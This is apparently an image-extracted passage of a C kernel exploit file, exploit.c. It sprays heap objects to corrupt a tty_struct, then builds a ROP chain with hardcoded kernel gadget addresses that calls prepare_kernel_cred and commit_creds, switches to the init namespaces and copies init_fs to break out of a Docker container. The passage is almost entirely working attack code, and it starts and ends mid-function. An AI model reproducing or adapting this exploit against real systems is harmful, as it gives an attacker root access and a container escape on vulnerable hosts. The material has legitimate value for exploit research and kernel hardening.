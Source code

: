 ```exploit.c
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
  }

  puts("[+] waiting corrupted `poll_list` is freed...");
  neverend = 0;
  for(int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    pthread_join(threads[ix], NULL);
  }

  // Free all keys
  for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
    free_key(keys[ix]);
  }
  puts("[+] waiting all keys are freed by GC...");
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Spray keys in `kmalloc-1024`, one of which must be placed on `tty_struct`
  puts("[+] spraying keys in kmalloc-1024");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 0;
    *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff810eba40); // commit_creds

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 1; // init process in docker container
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
    *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
    *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = KADDR(0xffffffff82589740); // &init_fs
    *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
    *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = getpid();
```